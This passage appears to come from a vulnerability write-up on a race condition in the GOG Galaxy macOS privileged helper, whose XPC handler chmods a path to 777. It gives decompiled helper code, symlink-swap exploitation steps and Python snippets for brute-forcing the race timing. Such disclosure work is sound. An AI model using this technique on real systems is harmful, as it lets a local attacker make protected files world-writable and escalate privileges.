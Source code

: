 #### Privileged Helper Side

Looking into the `changeFolderPermissionsAtPath` function in the helper, we can see if the `checkAuthorization` function returns 0. The function will chmod the path without any additional checks.

``` objc 
changeFolderPermissionsAtPath(ID obj,SEL selector,NSString path)
{
  ...
  auth = [ClientService checkAuthorization:command:selector] 
  if(auth == 0)
  {
    NSString* files = NSFileManager.defaultManager().subpathsAtPath(path)
    utf8_path_string = [files UTF8String] 
    chmod(utf8_path_string, 0x1ff)
  }
  ...
}
```


#### Exploiting the Vulnerability 
To exploit the vulnerability we will need to win the race. The steps that we need to take are: 
1. Start the application. 
2. Run the application for long enough that the XPC message to chmod the folder is sent and verified and the function handler is executing.
3. Replace the contents of the folder that the application is running from with a symlink to the folder / file that we want to chmod. 

Steps 2 and 3 are where the race occurs. We need to run the application for long enough that the XPC message still gets sent and verified. However, not for so long that the contents of the folder / file is still the application when the chmod command runs.

To exploit the vulnerability we need to win the race. As the application does not crash and can be run an arbitrary amount of times, the correct timing needed to win the race can be brute forced.

First, we are going to work out the approximate time it takes for the application to run chmod on itself. To do this we do the following steps in a loop: 

Copy across a copy of the GoG application to `/tmp/`.
```python 
while True:
        shutil.copytree("/Applications/GOG Galaxy.app", "/tmp/GOG Galaxy.app")
```
Chmod it to be 755 and make our `/tmp/app_test` directory.
```python
        os.chmod("/tmp/GOG Galaxy.app", 0o755)
        os.mkdir("/tmp/app_test")
```
Run the application and sleep.
```python
        proc = Popen("/tmp/GOG Galaxy.app/Contents/MacOS/GOG Galaxy", stdin=PIPE, stdout=DEVNULL,stderr=STDOUT)
        time.sleep(initial_delay)
```
Rename the application folder to `/tmp/app_test`. We do this to avoid the helper changing the permissions of the folder to 777 after the application has quit.
```python
        os.rename("/tmp/GOG Galaxy.app", "/tmp/app_test")
```
Sleep the script and then kill the process we spawned.
```python
        time.sleep(0.1)
        time.sleep(initial_delay)
        proc.kill()
        time.sleep(0.1)
```
Clean up our `/tmp/app_test/` folder. If `/tmp/app_test` has been chmod'd to 777 then we are relatively close to the correct delay for the race condition to work, so we quit the loop.